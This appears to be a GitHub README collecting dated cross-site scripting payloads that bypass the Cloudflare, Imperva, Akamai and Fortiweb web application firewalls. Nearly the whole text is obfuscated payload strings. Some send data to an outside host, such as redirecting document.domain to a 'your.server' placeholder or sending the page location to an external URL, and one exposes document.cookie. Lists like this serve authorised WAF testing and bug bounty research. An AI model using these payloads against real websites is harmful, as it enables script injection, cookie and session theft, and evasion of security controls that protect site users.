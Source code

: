 # WAF Bypasses

The payloads are headed by the date of discovery of the bypass.

### Cloudflare

```csharp
//17-08-2021:
"<iframe src=j&#x61;vasc&#x72ipt&#x3a;alert&#x28;1&#x29; >"

//04-08-2021:
%27%09);%0d%0a%09%09[1].find(alert)//

//22-05-2021:
"><img%20src=x%20onmouseover=prompt%26%2300000000000000000040;document.cookie%26%2300000000000000000041;

//12-04-2021:
<svg/onload=location/**/='https://your.server/'+document.domain>

//25-02-2021:
<svg onx=() onload=(confirm)(1)>

//25-01-2021:
<svg/onrandom=random onload=confirm(1)>

//11-01-2021:
<svg onload=alert%26%230000000040"1")>

//23-12-2020:
<img%20id=%26%23x101;%20src=x%20onerror=%26%23x101;;alert`1`;>
```

### Imperva

```javascript
//24-02-2021:
<a/href="j%0A%0Davascript:{var{3:s,2:h,5:a,0:v,4:n,1:e}='earltv'}[self][0][v+a+e+s](e+s+v+h+n)(/infected/.source)" />click
```

### Akamai

```javascript
//28-09-2021:
"><a/\test="%26quot;x%26quot;"href='%01javascript:/*%b1*/;location.assign("//hackerone.com/stealthy?x="+location)'>Click

//13-12-2020:
<marquee+loop=1+width=0+onfinish='new+Function`al\ert\`1\``'>

//28-10-2018:
<dETAILS%0aopen%0aonToGgle%0a=%0aa=prompt,a() x>
```

### Fortiweb

```javascript
//09-07-2019:
\u003e\u003c\u0068\u0031 onclick=alert('1')\u003e
```

